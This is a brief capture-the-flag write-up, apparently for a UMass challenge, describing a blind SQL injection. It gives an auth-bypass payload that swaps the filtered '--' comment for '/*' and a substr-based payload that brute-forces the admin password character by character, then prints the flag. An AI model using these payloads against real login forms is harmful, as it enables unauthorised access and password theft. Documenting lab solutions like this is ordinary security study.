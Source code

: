 # Blind SQLi

There's a parameter admin isset to False, then set to True
<img src='img/admin.png'>

It leads me to admin login. I expect this is a SQLi auth bypass
<img src='img/auth.png'>
## Solve
---

### Query from server 
```sql
SELECT * FROM users WHERE username = 'admin' AND Password = '';
```
- Because comment "--" was replaced by "ඞඞ" then i change to "/*". At first, im not sure it will work but eventually it works.
```sql
sus' or 1=1 /*
```
```sql
SELECT * FROM users WHERE username = 'sus' or 1=1 /* AND Password = '';
```
- We can't see the output. Just show a words

### Final Payload
```sql
sus' or substr((SELECT Password FROM users WHERE username='admin'),1,1) = 'U' /*
```
- Brute Force it
- After Waiting for a while, we got the flag

### flag

UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}
